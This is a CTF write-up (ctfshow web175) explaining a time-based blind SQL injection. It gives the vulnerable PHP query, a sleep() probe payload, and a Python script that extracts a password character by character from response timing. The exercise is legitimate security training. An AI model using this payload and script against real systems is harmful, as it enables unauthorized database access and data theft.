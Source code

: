结果快多了。

## web175~py脚本时间盲注,写文件

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select username,password from ctfshow_user5 where username !='flag' and id = '".$_GET['id']."' limit 1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //检查结果是否有flag
>     if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
>       $ret['msg']='查询成功';
>     }
>       
> ```

`[\x00-\x7f]/i` 匹配了基本 ascii 码值。也就是说基本页面不会回显数据库里的数据。

只会回显

```
{"code":0,"msg":"\u67e5\u8be2\u5931\u8d25","count":1,"data":[]}
```



尝试间件盲注`1' and sleep(5)--+` 成功。

* if 函数 `if(a,b,c)` , if判断，如果为真，返回b，否则返回c

继续写脚本

```python
# @Author: yanmie

import requests
import time

url = "http://e1c45db2-f1de-4e77-8ae9-f7739465a81d.chall.ctf.show/api/v5.php?id=1' and "
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0"
}

i = 0

result = ""
while True:
    i += 1
    for j in range(0,127):
        j += 1
        payload = "if((ascii(substr((select password from ctfshow_user5 where username='flag'),{i},1)))={j},sleep(5),0)--+".format(i=i,j=j)
        start_time = time.time()
        response = requests.get(url=url+payload,headers=headers)
        end_time = time.time()
        print(i,j)
        if end_time-start_time>5:
            result += chr(j)
            break

    print(result)
```
